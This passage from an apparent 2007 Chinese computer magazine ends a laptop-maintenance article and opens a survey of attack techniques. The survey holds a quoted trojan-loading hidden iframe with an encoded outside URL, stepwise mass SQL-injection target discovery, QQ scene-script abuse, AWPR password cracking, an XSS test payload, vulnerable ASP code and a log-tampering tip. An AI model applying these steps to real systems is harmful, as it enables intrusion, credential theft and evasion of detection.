再次，是偶然性故障。这是笔记本光驱随机发生的故障，如机内集成电路、电容、电阻、晶体管等元器件早期失效或突然损坏，或一些运动频繁的机械零部件突然损坏，这类故障虽不多见，但必须经过维修及更换才能将故障排除，所以偶然性故障又被称为“真”故障。

总之，要注意笔记本光驱使用过程中出现的机械故障，另外，电路故障中由用户调整不当引起的故障要比元器件损坏的故障多得多，所以最好请专业人士维修，在拆解或维护光驱设备时，不要随便调整笔记本光驱内部各种电位器。

##### 6. 散热系统维护与典型故障

由于空间和能源的限制，散热问题一直是笔记本电脑设计中的难题之一。在日常的笔记本常见故障中，几乎超过一半是由于散热系统故障造成的，机器过热往往会造成系统速度下降甚至死机，如果问题长期得不到解决还极有可能造成硬件烧坏或者加速老化，对笔记本的伤害极大。目前，导致笔记本发热增加的原因主要有：

- 第一，硬件功率比较高。这是导致笔记本过热的先天因素之一。笔记本的散热方式是模具制作的考虑因素之一，任何一款模具都有其最大散热能力，也就是说，一旦采用了功耗接近甚至超过其模具散热极限的硬件设备，就会造成机体温度过高并导致死机等不稳定现象。因此，在选购笔记本时需要合理选择笔记本配置。
- 第二，灰尘和空气影响。这是导致笔记本发热增加的因素之一。可以想象，当散热系统上面铺满了尘埃，气流肯定会受到很大的影响，散热效率自然下降。由于笔记本并非密封设计，加上它们都没有有效的滤尘设计，因此长期使用后必然会导致散热通道上堆积灰尘，在空气较差的大城市这种情况更加明显。
- 第三，导热硅胶干结。这也是导致笔记本发热增加的因素之一。其实笔记本的散热原理跟台式机是一样的，即通过导热硅胶把硬件设备和散热模块粘连在一起，使热量传到散热片上通过风冷系统把热量送出。当长时间使用后，硬件和散热片之间的导热硅胶都会有一定程度的干结，这就严重影响了散热质量，也就造成了频繁死机的情况发生。

故障：夏天工作时，笔记本电脑底部温度很高，出现死机的情况。解决办法：这是由于笔记本电脑空间狭小，散热不好而造成的。首先，如果笔记本电脑使用的是台式机CPU，在炎热的夏季长时间使用后，非常容易发生过热死机，因此要尽量避免在高温环境中长时间使用。另外，不要在过于柔软的平台上使用，这样会不利于热量的散失，建议把笔记本放在一个通风良好的硬平面上，或者选购合适的散热底座，以增加机器外部的空气流动，帮助机体内的热量迅速排出。

##### 7. 常用外部接口维护

常见的笔记本接口包括：电源接口、USB接口、PCMCIA接口、IEEE1394接口、PS2接口、VGA外接端口、音频接口、红外接口等。笔记本接口位置比较隐蔽，而且损坏之后很难修理。因此，需要追根溯源，把握笔记本接口出现故障的常见原因。一般情况下，接口出现问题是灰尘和不正确的插拔方式造成的。对于设计比较规范的厂商来说，在机器的端口都添加了橡胶外套，平时不使用的时候，可以用来把端口罩住以保持清洁。此外，不正确的插拔方式也是造成端口报废的罪魁祸首，插拔动作一定要平稳、固定，勿频繁。如图7所示。





#### 三、实用至上篇：笔记本电脑硬件及系统维护

##### 1. 数据维护及系统安全保护

###### （1）数据备份和加密

在硬件设备的备份方面，可以从以下方面着手。首先是外接式硬件备份装置，包括外接式USB硬盘外接盒或光盘刻录。其次是连接线数据传输方式，包括USB联机或网络联机。另外还包括其他外接式存储方式，如存储卡（SD、MS、MMC）等。这种数据维护方式比较常见。

如果要从系统加密方面提高数据安全，可以从以下几个方面考虑。首先是硬盘保密，用户可以自己设定硬盘密码；要设定硬盘密码只需要在BIOS的设定程序中的Security选单中设定即可。这样，在系统开机过程中系统会先询问硬盘密码。其次是系统保密。在BIOS设定程序的Security（安全）选项中，也可以设定一组使用者密码。设置以上两种密码后，系统在开机时，首先会询问硬盘密码，随即询问系统密码（两组密码可以设定为不同号码）。这样，就可以有效避免未经授权的使用者操作计算机。

###### （2）系统安全恢复与备份

一般情况下，正规的笔记本电脑都会配备专用的系统恢复光盘，在购买笔记本的时候一定要将这张光盘收好。当系统因为病毒或误操作而崩溃时，它能起到很好的作用。以联想系列笔记本电脑为例，如果笔记本系统崩溃，只要先将BIOS程序里的引导驱动设置成光盘引导，然后重新启动机器，放入笔记本随机奉送的系统恢复盘，在英文提示界面上选择重新覆盖操作系统就可以了。执行上述操作后，笔记本便会自动运行恢复程序，笔记本就会恢复到购机的初始状态。

此外，还可以使用Ghost等系统备份软件、Window系统还原等操作，使用方法和普通台式电脑一样。

##### 2. 驱动程序安装与升级

在笔记本维护过程中，一个很重要的环节就是硬件驱动与应用程序的更新。下面，以ThinkPad T61为例，讲解驱动程序的安装与升级。

第1步：了解笔记本型号所需要安装的操作系统版本。登录联想技术支持中心，地址为：http://www.lenovo.com/cn/zh/homepage.html，点击其中的 “ThinkPad 驱动下载” 网络链接，进入驱动下载页面。

第2步：选择对应的笔记本型号，进入驱动程序下载页面，在这里可以看到所有适用的硬件驱动与应用程序的所有列表。找到所需要的驱动程序后，点击链接即可打开驱动下载页面，选择正确的版本后即可下载。在下载页面中，也可以直接输入机器型号，直接查找相关的技术文档。在当前页面的下方，会出现当前机型所适用的所有驱动程序，并按照时间顺序进行排序，用户通过列表下载所需的驱动进行安装即可。如图8所示。


第3步：升级维护。通过类似的方法，可以登录不同电脑品牌的站点，完成驱动程序的升级。例如，可以完成笔记本BIOS（Basic Input-Output System，基本输入输出系统）升级，有效地提高系统的性能和稳定性，修正系统的Bug和提高对软件的兼容性和支持。

总之，在数字化技术不断发展的今天，笔记本电脑超强的便携性给人们提供了极大的方便，维护工作也将越来越重要。通过上面的讲解，广大用户对笔记本电脑的维护应该有了一个整体上的认识。通过讲解电脑内部的各个部件，以及从系统维护方面的加强，可以进一步发挥笔记本的优势，从而拥有更加高效稳定的便捷服务。

### 攻防之间：2007国内外网络安全技术精彩剖析

◆文/风之扬

在计算机应用中，网络安全是一个长盛不衰的话题。如今，在挂马攻击、U盘感染日益盛行的趋势下，攻击者主动性日益增强。从技术更加精湛的网络注入到蔓延迅速的“熊猫烧香”，从一种病毒的大面积发作到多种病毒的变本加厉，网络攻击者的手段也更加高明隐蔽。从用户的角度来看，在网络安全实践中最重要的莫过于“安全防护”了。2007年以来，网络攻击开始表现出一些新的动向，能够把握其趋势对我们的日常应用也具有十分重要的作用。基于此思路，本专题将结合国内外流行的网络攻击技术，从攻防两个角度进行详细的分析，并穿插一些经典案例突出技术的实践性，以进一步满足用户的安全性和趣味性需求。

#### 一、2007网络攻击技术趋势及特点剖析

今年以来，许多国内知名的网站纷纷被挂木马，当用户访问该站点时就会触发木马链接，用户的电脑也频频受到攻击。同时，各种病毒的新变种也纷纷出现，如与“熊猫烧香”极为相似的“小浩蠕虫”（“Worm/XiaoHao.a”）除了能够将可执行文件破坏以外，还可以将被感染的可执行文件图标变为一个“浩”字。这些种类繁多的攻击形式，都或多或少地反映了当前网络攻击的新动向。

##### 1. 思路剖析：2007网络攻击的新变化

目前，攻击者采用更具隐蔽性的技术，自动攻击工具可以根据随机选择、预先定义的决策路径或通过入侵者直接管理，来变化它们的模式和行为。另外，攻击工具可以通过升级或更换工具的一部分迅速变化，发动迅速变化的攻击，且在每一次攻击中会出现多种不同形态的攻击工具。通过这个过程，攻击者可以了解目标的各种信息，以便集中火力实施针对性攻击。随着攻击技术的发展，如今在每个阶段都出现了新的变化。结合本年度的典型攻击现象，可以得出如下思路。



第1步：扫描并探测目标信息，力争进入该系统。

目前，扫描工具利用更先进的扫描模式来改善扫描效果和提高扫描速度。以前，安全漏洞只在广泛的扫描完成后才被加以利用。而现在攻击工具利用这些安全漏洞作为扫描活动的一部分，从而加快了攻击的传播速度。

- 扫描目标主机。检查开放的端口，获得服务软件及版本。
- 检查服务软件是否存在漏洞，如果是，利用该漏洞远程进入系统，否则进入下一步。
- 检查服务软件的附属程序是否存在漏洞，如果是，利用该漏洞远程进入系统，否则进入下一步。
- 检查服务软件是否存在脆弱账号或密码，如果是，利用该账号或密码进入系统，否则进入下一步。
- 利用服务软件是否可以获取有效账号或密码，如果是，利用该账号或密码进入系统，否则进入下一步。
- 服务软件是否泄露系统敏感信息，如果是，检查能否利用，否则进入下一步。
- 扫描相同子网主机，重复以上步骤，直到进入目标主机或放弃。

第2步：检查漏洞，找准机会并利用漏洞来提升权限。

随着新版的Windows Vista系统应用日益普及，其漏洞也开始被攻击者利用。如MS07-048漏洞，它可能会允许匿名攻击者使用登录用户的特权来运行代码。如果用户订阅了源标题小工具中的恶意RSS源，或在联系人小工具中添加了恶意的联系人文件，或用户单击了天气小工具的恶意链接，攻击者就有可能在该系统上运行恶意代码。在这个步骤，可以分析如下。

- 检查目标主机上的程序是否存在漏洞，如果是，利用该漏洞提升权限，否则进入下一步。
- 检查本地服务是否存在漏洞，如果是，利用该漏洞提升权限，否则进入下一步。
- 检查本地服务是否存在脆弱账号或密码，如果是，利用该账号或密码提升权限，否则进入下一步。
- 检查重要文件的权限是否设置错误，如果是，利用该漏洞提升权限，否则进入下一步。
- 检查配置目录中是否存在敏感信息可以利用。
- 检查用户目录中是否存在敏感信息可以利用。
- 检查临时文件目录是否存在漏洞可以利用。
- 检查其他目录是否存在可以利用的敏感信息。

重复以上步骤，直到获得重要用户或管理员权限，或者直接放弃。

第3步：放置后门。

后门所带来的潜在效益是巨大的。网络界的“病毒富翁”和庞大的电脑病毒产业，已经开始为人们所关注。打开百度贴吧，往往会看到如下场景：一台台被“木马”控制的电脑被当作“肉鸡”在网上公开叫卖，从“肉鸡”上盗取的QQ号码、游戏币、游戏账号、隐私资料则被通过某些手段大肆交易。同时，越来越多的攻击技术可以绕过防火墙。由于网络安全的相互依赖性很强，一个攻击者也可以比较容易地利用分布式系统，对一个受害者发动破坏性的攻击。随着部署自动化程度和攻击工具管理技巧的提高，威胁的不对称性将继续增加。

第4步：清理日志。

最好手工修改日志，不要全部删除，也不好使用别人写的工具。同样，作为网络管理员，也可以对号入座寻找可能存在的漏洞，并实施有的放矢的安全测试。

第5步：扩大攻击范围，寻找更多目标。

如今，政府站点、电缆调制解调器、DSL和大学地址块等逐渐成为计入侵者青睐的目标。“熊猫烧香”病毒的传播过程中，多家著名网站遭到此类攻击而相继被植入病毒。由于这些网站的浏览量非常大，致使此次“熊猫烧香”病毒的感染范围非常广。同时，通过QQ、MSN等软件的传播方式也日益普遍，用户很容易落入此圈套。如图1所示。



值得注意的是，随着Linux等操作系统的应用，非Windows平台下的攻击技术也日益成熟。对于用户来说，要了解这些平台下的技术发展趋势，使用虚拟机技术是一项不错的选择。通过在一台电脑上安装虚拟机，管理员就可以在自己的机子上同时运行多个操作系统，并可在它们之间进行自由的切换，而网络攻击者也可以通过虚拟出若干台机器，实施各种操作系统下的攻击。总之，新建虚拟机后，用户可以通过配置文件修改参数，在单机平台上构建一个具有多个节点的局域网。

##### 2. 漏洞盘点：热门攻防技术的基础

漏洞即某个程序（包括操作系统）在设计时未考虑周全，当程序遇到一个看似合理、但实际无法处理的问题时，引发的不可预见的错误。通过对攻击趋势和攻击思路的分析，可以发现，各种漏洞也扮演着“助纣为虐”的角色，它们所造成的不良后果如下所述：被恶意用户利用，会造成信息泄漏，如黑客攻击网站即利用网络服务器操作系统的漏洞；对用户操作造成不便，如不明原因的死机和丢失文件等。因此，在攻防战术演练的过程中，对漏洞技术的理解也成为一个重要环节。

一般来说，系统漏洞的类型包括：远程进入系统漏洞、本地越权访问漏洞、拒绝服务攻击漏洞、Web数据接口漏洞等。下面，以Windows系统为主，将本年度比较热门的漏洞分述如下：

- （1）远程进入系统漏洞
从今年的发展趋势来看，多平台下的远程攻击也开始浮出水面，漏洞攻击的范围呈日益扩大化趋势。主要包括：Microsoft IE onload事件地址栏欺骗漏洞（MS07-057）、Bugzilla User.pm非授权创建账户绕过访问验证漏洞、HP-UX ARPA Transport远程拒绝服务漏洞、Trend Micro ServerProtect for Linux Web界面绕过访问认证漏洞、Cisco Unified IP Conference Station/IP Phone非授权访问及内置账号漏洞、Cisco Clean Access多个远程安全漏洞等。

- （2）本地越权访问漏洞
这种漏洞攻击现象十分普遍，几乎每天都会有相关事件发生。在Windows平台下，主要包括：Windows RPC认证远程拒绝服务漏洞（MS07-058）、Windows柯达图像查看器远程代码执行漏洞（MS07-055）、Microsoft IE脚本错误处理漏洞（MS07-057）、Windows Live Messenger畸形共享文件远程缓冲区溢出漏洞、Windows图像捕获服务本地权限提升漏洞（MS07-007）、MSN Messenger视频对话堆溢出漏洞（MS07-054）、Windows Media Player皮肤文件解析远程代码执行漏洞（MS07-047）、Microsoft Vista侧栏联系人及天气小工具远程代码执行漏洞、Microsoft Windows GDI AttemptWrite函数远程堆溢出漏洞（MS07-046）、Microsoft IE CSS字符串内存破坏漏洞（MS07-045）、Windows Media Player AU文件除零拒绝服务漏洞、Microsoft Windows Calendar ICS文件处理拒绝服务漏洞、Microsoft IE FirefoxURL协议处理器命令注入漏洞、Microsoft Windows Vista Teredo接口绕过防火墙规则漏洞（MS07-038）、Microsoft Publisher任意指针引用远程代码执行漏洞（MS07-037）、Microsoft .Net Framework多个空字节注入漏洞（MS07-040）、Microsoft IIS 5.1远程缓冲区溢出漏洞（MS07-041）、Microsoft Outlook Express MHTML URL解析信息泄露漏洞（MS07-034）等。此类漏洞出现十分频繁，以上仅为其中一些具有代表性的部分。

- （3）拒绝服务攻击漏洞
这种漏洞的危害性比较大，在Windows平台下，比较典型的漏洞包括：Windows RPC认证远程拒绝服务漏洞（MS07-058）、Windows资源管理器PNG图形整数溢出漏洞、Windows Media Player AU文件除零拒绝服务漏洞、Windows Calendar ICS文件处理拒绝服务漏洞、Windows活动目录LDAP请求验证远程拒绝服务漏洞（MS07-039）、Microsoft Windows GDI+ ICO文件远程拒绝服务漏洞、Microsoft Windows Vista ARP表项拒绝服务漏洞、Microsoft IE CHTSKDIC.DLL任意代码执行漏洞、Microsoft Windows GDI字体光栅化工具本地权限提升漏洞（MS07-017）、Microsoft Windows资源管理器ANI文件处理拒绝服务漏洞、Microsoft Windows CSRSS HardError消息多个漏洞（MS07-021）等。

- （4）Web数据接口漏洞
这种漏洞涉及的平台也比较广泛，在Windows平台下，包括内容管理服务器跨站脚本漏洞（MS07-018）等；在其他平台下，包括PHP MySQL/MySQLi扩展绕过安全限制漏洞、Cisco Unified MeetingPlace多个跨站脚本漏洞、Webmin pam_login.cgi远程跨站脚本执行漏洞等。

此外，还有一些其他类型的漏洞，如BEA WebLogic Server空密码组信息泄露漏洞、Hitachi uCosminexus应用服务器信息泄露漏洞等。这些漏洞所涉及的平台更加复杂，给用户安全防范工作带来了极大的挑战。下面，根据这些技术发展的特征，进行一些典型的案例分析和讲解。

#### 二、流行风向：网络安全技术及案例分析

对于攻击者来说，也是要找到攻击中的薄弱环节，实行各个击破。因此，在所有的环节中，谁能抢得先机就显得十分重要了。

##### 1. 探测扫描篇：快速扫描与批量搜索技术

信息化技术让人们的自动化操作更加便捷，这种效应也反映在攻击技术的新趋势上。扫描和搜索如同战争中的“侦查”，这是网络安全中的一个重要步骤。常常有攻击者感叹“90%的时间都花费在搜索注入点的过程中，时间在白白地浪费……”对于普通用户来说，一般会选择啊D搜索注入点。在啊D“网页查看”栏中，输入Google的网址，然后在搜索栏中输入“inurl:asp?id=”，就会出现很多注入点。这是由于，检测网站时在一个类似www.xxx.com/xxx.asp?id=xx的网址下进行，而Google可以通过上述语法找到以“asp?id=”结尾的网址，这可以看作快速扫描的一种方式。在软件界面中，随便翻阅几页，即可看到系统会自动提示一些注入点。如图2所示。



为了加快搜索速度，许多用户开始琢磨新的使用技巧，工具之间的优化组合也开始得到体现。这里以实用的工具Domain3.5为例。该软件的批量搜索功能得到了许多用户的青睐。

第1步：搜索目标并复制快捷方式。

使用时，首先登录Google网站，依然搜索原来的关键字“inurl:asp?id=”。当然，在实际应用中，也可以根据漏洞特征灵活选择关键词，如搜索Discuz论坛的“Powered by Discuz!”。搜索完毕，选择其中一页并单击右键选择“复制快捷方式”。本例中，选择第五页。

第2步：获取地址。

打开记事本，将剪贴板中的地址粘贴进去。当然，如果关键词不同，地址肯定也不一样了。完成上述操作后，就可以考虑获取批量地址了。本例地址为http://www.google.cn/search?q=inurl:asp%3Fid%3D&complete=1&hl=zh-CN&inlang=zh-CN&newwindow=1&start=40&sa=N。

第3步：利用迅雷并配置参数。

打开迅雷，单击“工具”菜单下的“配置”，在弹出的界面中，选择左侧的“任务默认属性”，将“开始”一栏设置为“手动”。设置完毕，在迅雷图标上单击右键，在弹出的选项中选择“新建批量任务”。将搜索获得的地址拷贝到此界面，将“start=40&sa=N”改为“start=(*)&sa=N”。同时，将下面的参数填写为从0到300即可。在任务栏中，全选所有的网址，并保存到记事本中。如图3所示。



第4步：获得地址并进行批量操作。

在Domain中，单击“SQL注入”选项卡，在新界面中选择左侧的“批量扫描注入点”按钮，并单击“导入网址”，找到刚才保存的网址文件。这样，就可以开始进行批量操作了。

通过上面的操作，可以看到，网络攻击者的操作越来越智能化。如果一般单位的网站没有进行安全防范，就很容易被攻击者通过Google、百度等搜索引擎检索出来。因此，实际防范中，需要综合考虑这些来自外部的攻击威胁。

##### 2. 木马攻击篇：欺骗技术与木马隐藏技术的组合

近几年以来，通过欺骗的方式获得机密信息的事件越来越多，在国内比较严重的银行诈骗事件已经让不少用户开始感觉到网络中存在的安全隐患。在种类繁多的攻防实践中，欺骗技术的应用无处不在。攻击者通过冒充正常用户，可以获取对攻击目标访问权或获取关键信息。典型的欺骗技术及应用如下：

第1种，通过欺骗获取口令。

这是一种最常见的方式。这种攻击主要通过缺省口令、口令破解和口令猜测三种途径。某些软件和网络设备在初始化时，会设置缺省的用户名和密码，但也给攻击者提供了最容易利用的脆弱点。口令破解技术则提供了进行口令猜测的自动化工具，通常需要攻击者首先获取密码文件，然后遍历字典或高频密码列表从而找到正确的口令。著名的工具有John the Ripple、Crack和适用于Win32平台的L0phtcrack等。口令猜测则是历史最为悠久的攻击手段，由于用户普遍缺乏安全意识，不设密码或使用弱密码的情况随处可见，这也为攻击者进行口令猜测提供了可能。

第2种，流氓软件和恶意代码。

目前，许多“流氓软件”可以通过欺骗技术，未经许可强行潜伏到用户电脑中，而且此类程序无卸载程序，无法正常卸载和删除，强行删除后还会自动生成。有迹象表明，病毒、黑客和流氓软件正紧密结合，日益趋于商业化、集团化，并且已经形成了一根完整的产业链条。此外，邮件病毒、网页病毒等，通常冒充成有用的软件工具、重要的信息等，诱导用户下载运行或利用邮件客户端和浏览器的自动运行机制，在启动后暗地里安装邪恶的或破坏性软件的程序，通常为攻击者给出能够完全控制该主机的远程连接。

第3种，网络攻击欺骗。

攻击者向攻击目标发送冒充其信任主机的网络数据包，达到获取访问权或执行命令的攻击方法。具体的有IP欺骗、会话劫持、ARP（地址解析协议）重定向和RIP（路由信息协议）路由欺骗等。其中，ARP欺骗提供将IP地址动态映射到MAC地址的机制，攻击主机可以发送假冒的ARP回答给目标主机发起的ARP查询，从而使其错误地将网络数据包都发往攻击主机。会话劫持是攻击者冒充网络正常会话中的某一方，从而欺骗另一方执行其所要的操作。IP欺骗是攻击者将其发送的网络数据包的源IP地址篡改为攻击目标所信任的某台主机的IP地址，从而骗取攻击目标的信任。有些攻击者甚至编造公司信息和认证标志，其隐蔽性更强。

目前，通过欺骗技术与木马隐藏技术相结合的方式越来越多，用户也防不胜防。下面，列举几个典型的例子。一般来说，受SSL保护的网页具有“https”前缀。当具有SSL功能的浏览器与WEB服务器(Apache、IIS)通信时，通过客户端和服务器端建立的安全通道，SSL可以用于在线交易时保护信用卡号以及股票交易明细这类敏感信息。但是，从目前钓鱼式攻击者的实践来看，大多没有这个标志，即使有，也可能是仿冒的。这就进一步揭穿了他们的把戏。下面，让我们来看看这个攻击者仿冒的花旗银行的页面吧。在IE地址栏上，有一个https地址，如图4所示。攻击者对相关代码适当处理后，就能方便地在https和http之间进行转换了。如在做电子商务站点的时候，可以让一个隐蔽的ASP页面直接以某个伪造的https地址开始，只需要添加一个简单的转换代码即可。

攻击者在完成其攻击目标后，通常会采取隐藏技术来消除攻击留下的蛛丝马迹，避免被系统管理员发现，同时还会尽量保留隐蔽的通道，使其以后还能轻易地重新进入目标系统。隐藏技术主要包括日志清理、内核套件、安装后门等。其中，日志清理主要对系统日志中攻击者留下的访问记录进行清除，从而有效地抹除自己的行动踪迹；内核套件则直接控制操作系统内核，提供给攻击者一个完整的隐藏自身的工具包；而安装木马后门的危害性更大，它对电脑系统有强大的控制和破坏能力，能窃取密码、控制系统操作、进行文件操作等等。木马在被植入攻击主机后，它一般会通过一定的方式把入侵主机的信息，如主机的IP地址、木马植入的端口等发送给攻击者，这样攻击者有这些信息才能够与木马里应外合控制攻击主机。

值得关注的是，今年以来，许多知名站点的官方页面被挂木马，如在国内某知名家电公司的网站页面中，被插入类似如下的代码用以激活木马页面链接：

```
<iframe width='0' height='0' src='http://**%77%77%2E%38%35%31%37%33%33%2E%63%6E/htm/view.htm?001'></iframe>
```

在被引用的链接中，同时又嵌入了许多代码用来打开不同的页面，进行批量挂马。打开挂马页面后常常会下载更多的木马。这些木马执行后，会关闭常见的安全软件，并监视用户系统，窃取用户的机密账号，甚至有部分还会模仿操作系统补丁的命名规则以迷惑用户，隐蔽性更强。这些木马以访问量比较大的网站为目标，可以轻易获取海量的信息，有些木马甚至还利用了专门的网站流量统计来统计受害用户数量，给安全防范工作带来了极大的挑战。

##### 3. IM安全篇：聊天软件攻击技术及典型案例

IM是“即时通信”软件的简称。根据易观国际、艾瑞等专业调查公司的数据显示，中国活跃的IM软件账号已经达到了3.76亿个，其中腾讯QQ和MSN则占据了绝大多数。不过，从2007年安全形势来看，针对QQ和MSN的攻击日趋增加。例如，黑客几乎不需要什么高超的技巧，就可以轻松盗取账号和密码。为了更好地把握技术发展趋势，下面以QQ场景漏洞为例进行讲解。

聊天场景是QQ软件中的一项基本功能，它可以拉近用户之间的距离。QQ场景漏洞的利用方法十分简单，这也反映了当前攻击技术的发展趋势：容易上手，破坏性大，攻击范围日益广泛。“QQ场景漏洞”原理为：攻击者向其QQ列表内的用户发送一个恶意构造的场景，场景里面包括图片文件、VBScript.qqs文件和Config.qqs文件，其中VBScript.qqs文件就是编写恶意代码的地方，然后在远程系统中执行即可。在攻击实施的过程中，如果是一段文件下载脚本代码，那么代码就会自动下载设置的文件并默默地运行。如果下载的是木马后门程序，黑客就可以通过木马进行远程控制。如果是一段格式化代码，那么磁盘中的文件就会瞬间被清除掉。为了进一步理解这种方法，下面对QQ场景漏洞进行测试，步骤如下：

- 第1步：下载场景文件。
- 第2步：设置信息内容。
- 第3步：攻击测试。

将QQ场景漏洞所需的场景文件下载到本地系统，解压后复制到系统中QQ的安装目录X:\Program Files\Tencent\QQ下，在Scene文件夹中就多了一个场景目录。不过为了弹出窗口更加有个性化，我们要对场景目录的真实脚本文件进行修改。

用文本编辑器打开VBScript.qqs文件，在文件代码中找到MsgBox这个消息函数，该函数后面跟着的就是该场景在执行后弹出的信息内容，这里将其设置为需要弹出的内容信息。例如：

```
Sub BackgroundOnSize()
MsgBox "你好，你中毒了"
End Sub
```

在QQ联系人列表中找一个用户，双击打开其聊天窗口。然后点击工具栏中的“选择音乐场景”按钮，在弹出的窗口中选择打开“我的场景”标签，找到一个和场景目录名称相同的场景。这样这个带有VBS脚本的场景，就会自动地下载到远程好友的QQ中并运行。另外，许多网站公布了该漏洞的利用代码，如最新的黑鹰QQ场景漏洞利用工具。利用这些代码，可以轻松修改系统的时间，从而让木马程序躲过杀毒软件的主动防御功能。

由于QQ场景漏洞是通过恶意脚本来进行操作的，因此要预防漏洞的方法就是防止非法的聊天场景写入系统磁盘。防范时，可以在场景设置中取消勾选“接受场景邀请”，或者直接将qq\IMScene\Scene中的Scene目录设置为只读。值得注意的是，目前针对腾讯QQ、MSN等软件的漏洞仍然比较常见，如通过腾讯赠送漏洞可以突破限制获得“QQ秀”，通过特定的注册方法免费开通QQ紫钻，利用“狂人DIY版2007b3”等版本的音乐场景挂马等。

当然，有矛就有盾，许多针对QQ攻击、QQ病毒的工具也应运而生，“QQ病毒专杀工具XP—QQKav”就是这样一款安全软件。软件的界面美观，无需安装即可使用，属于绿色环保软件。它专门用于查杀腾讯QQ病毒、木马及流氓软件，不仅具有带毒杀毒、准确度高、闪电查杀等特点，还可以实时监视注册表，有效屏蔽不健康及恶意网站，拒木马、病毒于门外。此外，该软件还可用于屏蔽广告及IE插件弹窗、修补IE木马后门漏洞。如图5所示，就是针对QQ病毒查杀后的结果。



##### 4. 破解测试篇：窃听技术和账户密码安全

首先，我们来看看窃听技术的应用情况。窃听技术是攻击者通过非法手段对系统活动进行监视从而获得一些安全关键信息。目前属于窃听技术的流行攻击方法有键击记录器、网络监听、非法访问数据和攫取密码文件。首先是键击记录器，通常需要有一个键盘设备驱动程序，它能够把每次键击都记录下来，存放放到攻击者指定的隐藏的本地文件中。其次是网络监听，通过设置网卡的混杂（promiscuous）模式获得网络上所有的数据包，并从中抽取安全关键信息，如明文方式传输的口令。再次是非法访问数据和盗取密码文件，这是指攻击者或内部人员违反安全策略对其访问权限之外的数据进行非法访问或盗取密码文件。

以MSN登录信息的窃听过程为例。一般来说，用户计算机上的程序统称为MSN Messenger“客户端”，它通过Internet连接到一个MSN Messenger“服务器”。也就是说，客户端通过服务器与其他客户端交互信息。在大多数时间里，用户的客户端与服务器会话，然后由服务器来处理这些会话信息并通知其他人。了解之前，我们使用Sniffer NT来截获登录时的数据。从截获的登录数据中，我们可以看到，在“数据”一栏中，有很多类似CVR、VER、USR等开头的数据，登录连接时还用到了TCP/1863和TCP/443这两个端口，它们记录了MSN Messenger登录的整个过程。客户端与服务器间信息都是以命令格式传递的。命令被描述为三个字符的所有字母大写的命令代号。所有一般命令都有一个事务ID并且以新行结束。看到“CVR 146 0x0804 winnt 5.0 i386 MSNMSGR 7.0.0777 msmsgscndes2005@hotmail.com”时就可以知道，现在客户端正发出OS、语言、MSN Messenger版本等信息。登录后，我们还可以了解在线用户的一些信息，比如可以知道有一个MSN用户在线。通过进一步挖掘，即可探测许多有关该账号的机密信息。

其次，就是比较常见的密码破解技术了。对于许多攻击者来说，破解操作系统中的原有账户和密码后，并不对其进行更改，这是“留后门”的理想方法之一。要达到这种效果，就需要有效率更高的软件。除了LC（LOphtCrack），这里还将介绍本年度比较流行的AWPR（Advanced Windows Password Recovery），该软件破解的密码包括：进入系统时的密码、屏幕保护程序密码、上网及拨号的密码甚至其他的共享资源的密码等。不过，AWPR最突出的功能在于：在Windows NT/2000/XP/2003等系统下，能够快速获取本地电脑大多数系统账户的密码。安装该软件后，有关该软件的使用步骤和技巧如下：

- 第1步：设置字典，对该软件破解进行设置。
进行设置。
单击“Options”→“NT hash options”，在弹出的界面中即可对系统账户密码破解中的项目或者过程进行设置。包括设置参与测试的字符、选择测试字典等。如图6所示。



图6

- 第2步：破解测试。
单击“Main Menu”→“Recovered hashes”，软件就会按照默认设置自动获取本地所有系统账户密码的hash值，并能够快速进行破解。破解完毕，在列表中单击右键，选择“Save list to file”，在弹出的对话框中输入文件名并保存。打开该文件，即可看到详细信息，包括用户名、ID、密码、描述和提示等。

值得注意的是，开发AWPR的软件公司ElcomSoft在密码破解领域小有名气，他们开发的其他密码破解产品能够轻松破解RAR、ZIP、ARJ、Microsoft Office、PDF等文件的密码。

##### 5. 网站攻击篇：历久弥坚的跨站攻击技术

在网络技术快速发展的2007年，针对传统Web系统的漏洞攻击依然十分盛行，从跨站、注入到暴露等漏洞依然十分盛行。以免费购物系统为例，许多代码都存在明显的跨站或注入攻击漏洞，如ShopV8购物系统、网趣购物系统、时代商城购物系统、ONSHP购物系统、商达讯网上开店免费版、SHOPXP购物系统、汕头吧网上商城正式版等。这些代码的漏洞被频频揭露出来，让人们对电子商务系统的安全性担忧不已。

> > **小知识**
> 跨站攻击（Cross Site Script），指的是恶意攻击者往Web页面里插入恶意html代码，当用户浏览该页之时，嵌入其中Web里面的html代码会被执行，从而达到恶意用户的特殊目的。一般情况下，跨站攻击分成两类，一类是来自内部的攻击，主要指的是利用程序自身的漏洞，构造跨站语句；另一类则是来自外部的攻击，主要指攻击者构造跨站漏洞网页或者寻找非目标机以外的有跨站漏洞的网页。

传统的跨站利用方式一般都是攻击者先构造一个跨站网页，然后在另一空间里放一个收集Cookie的页面，接着结合其他技术让用户打开跨站页面以盗取用户的Cookie，以便进一步攻击。不过，这种方式比较落后，即使收集到Cookie也未必能获得更加有用的信息，因为大多数Cookie密码都是经过加密的，如果想要Cookie欺骗的话，同时还要受到其他条件的限制。基于上述原因，出现了一些比较成熟的方法，如通过跨站构造一个表单，表单的内容则为利用程序的备份功能或者加管理员等功能得到一个高权限。目前，免费代码日益增多，这给普通用户提供了学习和借鉴的良好机会，但也给了攻击者可乘之机。通过对代码进行长度和字符过滤测试，可以发现很多漏洞。如测试QQ群跨站漏洞时，在标题处输入“<script>alert('test')</script>”，这样就可以弹出一个测试框。下面，选择2007年比较流行的ShopV8购物系统进行分析。

- 第1步：阅读代码，查找典型漏洞。
打开该系统的关键文件FKsave.asp，代码如下所示：

```asp
<%
'检测姓名name和内容content的值
if request.form("name")="" then
response.write "<script LANGUAGE='javascript'>alert('请填写您的姓名');history.go(-1);</script>"
response.End
end if
if request.form("content")="" then
response.write "<script LANGUAGE='javascript'>alert('请填写您的留言与建议');history.go(-1);</script>"
response.End
end if
if request.form("temp")="" then
response.write "<script language='javascript'>" & VbCRLF
response.write "alert('非法操作!');" & VbCRLF
response.write "history.go(-1);" & VbCRLF
response.write "</script>" & VbCRLF
'由于表单被重复提交（标志为session("antry")为空)引起
else
iname=request.Form("name")	'从表单中获取name的值赋给iname
iqq=request.Form("qq") '从表单中获取qq的值赋给iqq
iemail=request.Form("email") '从表单中获取email的值赋给iemail
iurl=request.form("url") '从表单中获取url的值赋给iurl
isex=request.form("sex") '从表单中获取sex的值赋给isex
icontent=request.form("content") '从表单中获取content的值赋给icontent
%>
<%
set rs=server.createobject("adodb.recordset") '创建adodb.recordset对象
rs.open "select * from shop_guest where (id is null)",conn,1,3
rs.addnew
